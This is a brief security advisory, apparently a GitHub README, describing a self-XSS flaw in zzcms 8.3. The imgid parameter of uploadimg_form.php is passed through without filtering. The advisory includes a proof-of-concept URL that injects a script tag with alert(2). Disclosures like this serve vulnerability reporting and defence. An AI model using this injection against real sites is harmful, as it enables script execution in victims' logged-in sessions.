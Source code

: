 
## Component
zzcms 8.3 Download link:http://www.zzcms.net/download/zzcms83.zip
## Vulnerability location
**/uploadimg_form.php** line 67
![](https://github.com/RobinParkerX/zzcms8.3-xss/tree/master/image/1.png)
**imgid** parameter Directly from user input and no security filtering that cause a self_xss
## Vulnerability trigger condition
Triggered after user or admin login
![](https://github.com/RobinParkerX/zzcms8.3-xss/tree/master/image/2.png)
## POC
```
http://192.168.30.216/uploadimg_form.php?imgid="><script>alert(2)</script>"

```
![](https://github.com/RobinParkerX/zzcms8.3-xss/tree/master/image/3.png)
